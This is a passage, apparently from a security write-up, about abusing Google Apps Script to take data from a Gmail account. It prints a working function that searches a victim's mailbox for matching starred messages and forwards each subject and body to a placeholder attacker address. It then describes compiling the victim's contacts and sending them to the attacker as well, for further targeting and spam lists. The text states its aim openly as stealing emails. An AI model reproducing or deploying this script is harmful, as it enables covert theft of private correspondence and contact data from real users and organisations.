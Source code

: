   }

   Logger.clear();

  

}

  

-   Next - **we want to steal emails**. 
-   Similarly we construct a search against GmailApp. The search term specified in that function is the same format as Gmail searches you are used to doing ([link](https://support.google.com/mail/answer/7190?hl=en)).
-   This function will search through all mail, and if it finds a message matching the search criteria, it will forward it to our attacker email address.Use cases; forward all emails with an attachment, forward all emails with the word confidential, forward all emails that are starred, etc

function gmailKeySearch() {

  var threads = GmailApp.search('subject:SEARCHTERM');

  for (var h = 0; h < threads.length; h++) {

    var messages = threads\[h\].getMessages();

    for (var i = 0; i < messages.length; i++) {

      if (messages\[i\].isStarred())

      {

        Logger.log(messages\[i\].getSubject());

        var subject = messages\[i\].getSubject();

        Logger.log(messages\[i\].getBody());

        var body = messages\[i\].getBody();

        Logger.log(messages\[i\].getId());

        var id = messages\[i\].getId();

        MailApp.sendEmail({

          to: "ATTACKEREMAILADDRESS",

          subject: subject,

          htmlBody: body,

       }); 

          }

      }

    }

}

  

-   Lastly, we mine the contacts database for information, composite a list of contacts, and send it back to our attacker email address.
-   Why? **Attackers can use this to target additional individuals within the organization, construct bigger email spam lists, and just generally it's good to compile more information about your target.**
